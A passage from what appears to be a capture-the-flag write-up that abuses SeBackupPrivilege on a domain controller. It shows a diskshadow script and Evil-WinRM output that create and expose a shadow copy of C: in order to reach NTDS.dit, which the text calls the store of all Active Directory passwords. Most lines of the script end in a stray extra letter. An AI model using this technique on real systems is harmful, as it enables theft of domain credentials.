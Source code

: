 > SeBackupPrivilege - Required to perform backup operations. This privilege causes the system to grant all read access control to any file, regardless of the access control list (ACL) specified for the file. Any access request other than read is still evaluated with the ACL. This privilege is required by the RegSaveKey and RegSaveKeyExfunctions. The following access rights are granted if this privilege is held: READ_CONTROL ACCESS_SYSTEM_SECURITY FILE_GENERIC_READ FILE_TRAVERSE User Right: Back up files and directories.

So I Googled about what we can do with this Privilege and Found these.

> [https://github.com/giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)

> [https://roberthosborne.com/privesc](https://roberthosborne.com/privesc)

> [https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf)

> What is NTDS.dit? This file is AD database it contains all account information and passwords from AD domain, so if we compromise this file we can do anything.

`script.txt`

```nix
set metadata C:\Windows\System32\spool\drivers\color\sss.cabs
set context clientaccessibles
set context persistents
begin backups
add volume c: alias mydrives
creates
expose %mydrive% z:
```

```nix
*Evil-WinRM* PS C:\Users\svc_backup\Documents> diskshadow /s script.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  6/10/2020 1:41:53 PM

-> set metadata C:\Windows\System32\spool\drivers\color\sss.cab
The existing file will be overwritten.
-> set context clientaccessible
-> set context persistent
-> begin backup
-> add volume c: alias mydrive
-> create
Alias mydrive for shadow ID {0e25477e-fbdf-4d5b-9b89-856d1d63a57f} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {5f450b2c-b605-400b-a983-cad1c6ff5c21} set as environment variable.

Querying all shadow copies with the shadow copy set ID {5f450b2c-b605-400b-a983-cad1c6ff5c21}

	* Shadow copy ID = {0e25477e-fbdf-4d5b-9b89-856d1d63a57f}		%mydrive%
		- Shadow copy set: {5f450b2c-b605-400b-a983-cad1c6ff5c21}	%VSS_SHADOW_SET%
		- Original count of shadow copies = 1
		- Original volume name: \\?\Volume{351b4712-0000-0000-0000-602200000000}\ [C:\]
		- Creation time: 6/10/2020 1:42:57 PM
		- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
		- Originating machine: DC01.BLACKFIELD.local
		- Service machine: DC01.BLACKFIELD.local
		- Not exposed
		- Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
		- Attributes:  No_Auto_Release Persistent Differential

Number of shadow copies listed: 1
-> expose %mydrive% z:
-> %mydrive% = {0e25477e-fbdf-4d5b-9b89-856d1d63a57f}
The shadow copy was successfully exposed as z:\.
```